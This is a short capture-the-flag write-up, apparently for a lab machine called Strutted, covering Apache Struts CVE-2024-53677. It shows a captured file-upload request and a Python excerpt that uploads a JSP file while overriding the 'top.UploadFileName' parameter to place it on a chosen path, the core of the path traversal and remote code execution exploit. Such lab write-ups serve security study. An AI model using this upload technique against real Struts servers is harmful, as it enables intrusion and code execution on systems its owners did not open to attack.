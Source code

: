 
### Vulnerabilities
- Apache Struts (CVE-2024-53677):
  1. Path traversal
  2. Remote Code Execution
- Tomcat Users

### Understanding
- First, we need to open Burpsuite and downlaod any png file. Upload it in the web page and intercept with Burpsuite

- After that, the following request was made:
```bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://strutted.htb/upload.action
Content-Type: multipart/form-data; boundary=---------------------------388871286435985454764127734883
Content-Length: 24571
Origin: http://strutted.htb
DNT: 1
Connection: keep-alive
Cookie: JSESSIONID=DC3558DE24F1713AAC6D981931A9960C
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------388871286435985454764127734883
Content-Disposition: form-data; name="upload"; filename="cat.png"
Content-Type: image/png
```

- Searching a CVE-2024-53677 exploit:

```py
# extract
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")


```
